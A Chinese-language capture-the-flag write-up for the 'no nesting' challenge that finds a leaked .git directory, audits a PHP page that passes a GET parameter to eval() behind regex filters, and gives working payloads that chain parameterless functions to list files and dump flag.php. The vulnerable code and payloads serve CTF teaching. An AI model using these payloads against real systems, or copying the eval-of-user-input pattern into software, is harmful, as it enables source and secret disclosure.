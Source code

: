 ## 0x01 禁止套娃

用dirsearch扫描发现是git泄露，采用GitHack下载泄露的Git发现是index.php![](/assets/GXY1.png)打开Index.php进行源码审计，发现过滤：

```
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

* 过滤伪协议

* \(?R\)引用当前表达式，后面加了?递归调用。只能匹配通过无参数的函数。

* 过滤了et\|na\|info\|dec\|bin\|hex\|oct\|pi\|log关键字。

知识点：

```
scandir(’.’):扫描当前目录
localeconv() 函数返回一包含本地数字及货币格式信息的数组。而数组第一项就是.
pos(),current():返回数组第一个值

//数组操作函数：
1.end():数组指针指向最后一位
2.next(): 数组指针指向下一位
3.array_reverse(): 将数组颠倒
4.array_rand(): 随机返回数组的键名
5.array_flip()：交换数组的键和值

//读取文件函数
1.file_get_content() :因为et被ban，所以不能使用
2.readfile()
3.highlight_file()
4.show_source()

session_start(): 告诉PHP使用session;
session_id(): 获取到当前的session_id值；
手动设置cookie中PHPSESSID=flag.php；
```

exp构造原理：利用函数名称来表示要查询的语句和文件名，最后采用show\_source查看源码

Payload:

```
/?exp=print_r(scandir(pos(localeconv())));   //查看该目录下的所有文件
/?exp=show_source(next(array_reverse(scandir(pos(localeconv())))));    //查看该目录下倒数第二位的文件源代码
/?exp=show_source(array_rand(array_flip(scandir(pos(localeconv())))));  //随机查看该目录下的一个文件的源代码
```



